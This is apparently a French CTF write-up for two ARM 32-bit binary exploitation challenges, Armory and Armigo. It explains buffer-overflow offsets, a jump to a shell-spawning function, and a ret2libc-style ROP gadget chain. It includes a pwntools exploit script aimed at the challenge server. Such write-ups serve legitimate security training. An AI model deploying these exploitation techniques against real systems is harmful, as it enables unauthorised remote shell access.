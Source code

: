 J'ai utilisé shazam "I am the best" !

#### Armory

*Armigo est un executable ELF / ARM 32 bits*

Il n'y a pas de sécurités vraiment bloquantes activées sur le binaire, on le lance avec qemu, on lui passe une longue chaine et on remarque un buffer overflow assez trivial. On peut controller l'adresse de retour. On genere un payload cyclic pour trouver l'offset du point de pivot.

<p align="center">
  <img src="/img/blog-ecsc-1/cyclic.png" />
</p>


En désassemblant le binaire, on remarque une fonction *evil()* à l'addresse __0x1052c__ qui réalise un *system("/bin/sh")*. On a juste à remplacer le point de pivot par cette adresse et le tour est joué.

```python
from pwn import *


evil = "0x1052c"

HOST = "challenges.ecsc-teamfrance.fr"
PORT = 4003

r=remote(HOST,PORT)
payload = "a"*68 + p32(evil)
r.recvuntil("")
r.sendline(payload)
r.interactive()
```
#### Armigo

*Armigo est un executable ELF / ARM 32 bits*

On se trouve dans les memes conditions que pour *Armory*, on retrouve un buffer overflow assez trivial. On peut controller l'adresse de retour. Une fois de plus on peut generer un payload cyclic pour trouver l'offset du point de pivot.

Beaucoup de fonctions sont disponibles dans le binaire on va essayer de les utiliser pour obtenir un shell distant. On recupère les adresses *system*, *exit* et *"bin/sh"*, et on devrait pouvoir les chainer pour creer un ret2libc (du moins c'est comme ça que je ferais sur x86).
Cependant, il y'a une subtilité avec l'ARM, les paramètres passent par registres et non par la pile. L'idée c'est donc de modifier un peu ce concept, on a juste à trouver un gadget qui charge une valeur de la pile dans r0, grace à ca on pourra charger notre chaine  *"/bin/sh"* dans le bon registre et appeler *system*. J'ai utilisé l'outil ROPgadget pour lister les gadgets.

On trouve donc : 
```
0x71134 : ldr    r0, [sp, #12], add  sp, sp, #20
```

Ce gadget charge la valeur à l'offset 12 de la pile dans r0 on a juste à placer "/bin/sh" à +12, ensuite on saute de +20 sur la pile et on continue l'execution.
